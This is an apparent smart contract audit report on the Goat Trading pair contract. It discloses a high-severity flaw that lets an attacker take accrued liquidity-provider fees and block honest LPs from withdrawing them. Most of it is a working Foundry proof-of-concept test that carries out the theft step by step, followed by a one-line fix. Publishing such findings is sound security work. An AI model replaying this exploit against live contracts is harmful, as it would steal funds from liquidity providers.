Agreeable Lemonade Toad

high

# hacker can steal fee from LPs

## Summary

Hacker can claim all LP fees and prevent honest LPs from claiming them.

## Vulnerability Detail

In Goat Trading. LPs receive Fees from swaps on the pairs to reward for the risk of providing liquidity. 
When the pair is in AMM mode, LP fees are collected on every swap and accounted in the vars `_pendingLiquidityFees` and `feesPerTokenStored`. 

Anyone can withdraw the current fees for an LP at any time, using the withdrawFees function. It uses the _earned function to check how many fees the LP should receive. 

```solidity
function _earned(address lp, uint256 _feesPerTokenStored) internal view returns (uint256) {
        uint256 feesPerToken = _feesPerTokenStored - feesPerTokenPaid[lp];
        uint256 feesAccrued = (balanceOf(lp) * feesPerToken) / 1e18;
        return lpFees[lp] + feesAccrued;
}
```

It uses the current `feesPerToken `value (always increasing) and substracts another lp specific value, of how many fees per token have been paid so far. 

to assure an LP only participates in fees accrued after deposit, there is the `_updateFeeRewards` function.

```solidity
function _updateFeeRewards(address lp) internal {
        // save for multiple reads
        uint256 _feesPerTokenStored = feesPerTokenStored;
        lpFees[lp] = _earned(lp, _feesPerTokenStored);
        feesPerTokenPaid[lp] = _feesPerTokenStored;
}
```
Its called at minting (before the tokens are minted!), burning and inside the `beforeTransfer `function of the LP token to update  `lpFees[lp]` and `feesPerTokenPaid[lp]`` with the old balance. (especially important at first time receiving of LP token).

In beforeTransfer there is an exception for when the receiver of the LP token is the pool itself, to account for that these have to be transferred there to be burned.

```solidity
        // Update fee rewards for both sender and receiver
        _updateFeeRewards(from);
        if (to != address(this)) {
            _updateFeeRewards(to);
        }
```

This is the root for the following attack:
When Fees have accrued, hacker can:

1. transfer LP tokens to the pool (updateFeeRewards not called for pool address!)
2. mint minimal amount of LP to the pool address (to call updateFeeRewards with the full balance)
3. call burn to burn the transferred LP tokens and receive the invested liquidity back
4. call withdrawFees for the pools address (will "withdraw" WETH fees to the pool address)
5. call swap to swap the "free" weth in the pool contract to pool tokens (this steals the fee as its transferred to the hacker)

Note that honest LPs that earned fees to this point cannot withdraw fees anymore because the following in withdrawFees is reverting: `_pendingLiquidityFees -= uint112(totalFees);`

The Hacker can repeat this when there are new fees accrued.

**POC**
paste this in `test/foundry/exchange/GoatV1Pair.t.sol` & run `forge test --match-test  testStealFees -vvvv`

```solidity
    function _setupPair() internal {

        GoatTypes.InitParams memory initParams;
        initParams.virtualEth = 10e18;
        initParams.initialEth = 10e18;
        initParams.initialTokenMatch = 1000e18;
        initParams.bootstrapEth = 10e18;
        uint256 wethAmount = 10e18;
        _mintInitialLiquidity(initParams, users.lp);

        wethAmount = _swapWethForTokens(
            wethAmount,
            100e18,
            users.alice,
            SwapRevertType.None
        );
        uint256 fees = (wethAmount * 99) / 10000;
        uint256 totalLpFees = (fees * 40) / 100;
        uint256 totalSupply = pair.totalSupply();
        uint256 feesPerTokenStored = (totalLpFees * 1e18) / totalSupply;
        uint256 lpBalance = pair.balanceOf(users.lp);
        uint256 lpFees = (feesPerTokenStored * lpBalance) / 1e18;

        feesPerTokenStored = pair.feesPerTokenStored();
        uint256 earned = pair.earned(users.lp);
    }

    function _setuphacker() internal returns (address hacker, uint wethStart, uint tokenStart) {
        hacker = address(007);
        (uint256 wethR, uint256 tokenR) = pair.getReserves();
        wethStart = wethR+ 1e18 ;
        tokenStart= tokenR+ 100e18 ;

        vm.deal(hacker,wethStart);
        _fundMe(IERC20(goat), hacker, tokenStart );
        vm.prank(hacker);
        weth.deposit{value: wethStart}();


    }
    function testStealFees() public {

        _setupPair();
 
        (address hacker, uint wethStart, uint tokenStart) = _setuphacker();

        // hacker adding Liquidity
        vm.startPrank(hacker);
        weth.transfer(address(pair), wethStart - 1e18);
        goat.transfer(address(pair), tokenStart - 100e18);
        pair.mint(hacker);
        vm.stopPrank();
        uint256 lpBal = pair.balanceOf(hacker);

        // Wait until lock time is over
        vm.warp(pair.lockedUntil(hacker) + 1);
        // Transfer LPs to pair itself
        vm.startPrank(hacker);
        pair.transfer(address(pair), lpBal);

        // Mint minimal amount of LP tokens to the pool to store the fees:
        weth.transfer(address(pair), 1);
        goat.transfer(address(pair), 100);
        pair.mint(address(pair));

        // hacker is not loosing its invested LP, because they can use burn, which will burn the LP Tokens transferred to the pair
        (uint wethReceived, uint tokenReceived) = pair.burn(hacker);
        console.log("WETH RECEIVED", wethReceived);
        console.log("TOKEN RECEIVED", tokenReceived);

        // hacker is calling withdrawFees, which is actually withdrawiing the fees to the pair itself
        uint stolenFee = pair.earned(address(pair));
        console.log("FEE", stolenFee);
        pair.withdrawFees(address(pair));

        // hacker swaps the stolen fee to Tokens.
        (uint wethReserveBefore, uint tokenReserveBefore) = pair.getReserves();
        uint amountTokenOut = GoatLibrary.getTokenAmountOutAmm(
            stolenFee,
            wethReserveBefore,
          tokenReserveBefore 
        );
        pair.swap(amountTokenOut, 0, hacker);
        vm.stopPrank();

        {
            uint tokenBalAfter= goat.balanceOf(hacker);
            uint wethBalAfter = weth.balanceOf(hacker) ;
            int256 netWETH = int256(wethBalAfter) -  int256(wethStart);

            console.log("WETH BEFORE", wethStart);
            console.log("WETH AFTER:", wethBalAfter);
            console.log("NET CHANGES WETH:");
            console.logInt(netWETH);
            console.log("TOKEN BEFORE", tokenStart);
            console.log("TOKEN AFTER:", tokenBalAfter);
            console.log("NET CHANGES TOKEN:");
            console.logInt(int256(tokenBalAfter)  - int256(tokenStart));
        }

        vm.startPrank(users.lp);
        // previous LPs cannot withdraw Fees, as it will revert.
        vm.expectRevert();
        pair.withdrawFees(users.lp);
        vm.stopPrank();
    }
```
## Impact

Hacker can steal fee and prevent honest LP from withdrawing it.

## Code Snippet

https://github.com/sherlock-audit/2024-03-goat-trading/blob/main/goat-trading/contracts/exchange/GoatV1Pair.sol#L616-L626

https://github.com/sherlock-audit/2024-03-goat-trading/blob/main/goat-trading/contracts/exchange/GoatV1Pair.sol#L711-L715

https://github.com/sherlock-audit/2024-03-goat-trading/blob/main/goat-trading/contracts/exchange/GoatV1Pair.sol#L163

https://github.com/sherlock-audit/2024-03-goat-trading/blob/main/goat-trading/contracts/exchange/GoatV1Pair.sol#L933-L938

https://github.com/sherlock-audit/2024-03-goat-trading/blob/main/goat-trading/contracts/exchange/GoatV1Pair.sol#L950-L954

https://github.com/sherlock-audit/2024-03-goat-trading/blob/main/goat-trading/contracts/exchange/GoatV1Pair.sol#L205

https://github.com/sherlock-audit/2024-03-goat-trading/blob/main/goat-trading/contracts/exchange/GoatV1Pair.sol#L921-L925

## Tool used

Manual Review

## Recommendation

Dont allow to withdraw Fees for the pool address:

```diff
--- a/goat-trading/contracts/exchange/GoatV1Pair.sol
+++ b/goat-trading/contracts/exchange/GoatV1Pair.sol
@@ -614,6 +614,7 @@ contract GoatV1Pair is GoatV1ERC20, ReentrancyGuard {
      * - The `_pendingLiquidityFees` state variable is decreased by the amount of fees withdrawn.
      */
     function withdrawFees(address to) external {
+        require(to != address(this), "Not Allowed");
         uint256 totalFees = _earned(to, feesPerTokenStored);

         if (totalFees != 0) {
```
